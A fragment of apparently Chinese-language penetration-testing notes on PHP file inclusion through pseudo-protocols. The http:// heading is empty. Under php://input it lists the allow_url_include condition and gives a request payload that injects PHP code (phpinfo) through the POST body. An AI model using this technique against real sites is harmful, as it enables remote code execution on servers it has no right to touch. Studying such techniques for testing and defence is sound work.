 ![图片.png](assets/9113969-9e85b3d7d45898c3.png)



### 伪协议利用：http://





### 伪协议利用：php://input

利用条件：

1. allow_url_include = On。
2. 对allow_url_fopen不做要求。



姿势：

```
index.php
?file=php://input

POST:
<? phpinfo();?>
```


